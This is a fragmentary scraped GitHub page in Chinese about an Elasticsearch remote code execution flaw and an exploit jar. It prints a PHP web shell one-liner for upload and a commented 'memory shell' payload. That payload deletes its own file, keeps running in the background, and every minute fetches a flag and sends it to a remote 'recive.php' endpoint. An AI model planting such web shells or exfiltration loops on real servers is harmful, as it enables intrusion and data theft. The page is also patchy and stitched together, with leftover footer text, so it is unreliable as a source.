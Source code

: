 # elasticsearch命令执行漏洞
更新地址：Elasticsearch_1.2.jar 命令参数忘记编码了，导致不能执行多参数已修复了。修改了超时为10秒、异常情况直接输出页面源码。

1
2
1、ElasticSearch是一个基于Lucene构建的开源，分布式，RESTful搜索引擎。设计用于云计算中，能够达到实时搜索，稳定，可靠，快速，安装使用方便。 
2、Lucene是apache软件基金会4 jakarta项目组的一个子项目，是一个开放源代码的全文检索引擎工具包
这个漏洞如果被利用可直接在服务器端执行任意的java代码，ElasticSearch基本都部署在大型集群环境中危害非常的大。

elasticsearch 文件上传的时候必须注意 斜杠 \ 的使用

"<?php eval(\\\\$_POST[1]);?>hello"

内存马
#file2 = "<?php unlink(\\\\$_SERVER[\'SCRIPT_FILENAME\']);ignore_user_abort(true);set_time_limit(0);while (true) {\\\\$x = file_get_contents(\'" + flag_ip + "\');file_get_contents(\'" + reverse_ip + "/recive.php?a=\'.\\\\$x);sleep(60);}?>"
Contact GitHub API Training Shop Blog About
© 2016 GitHub, Inc. Terms Privacy Security Status Help
# elasticsearch travel漏洞
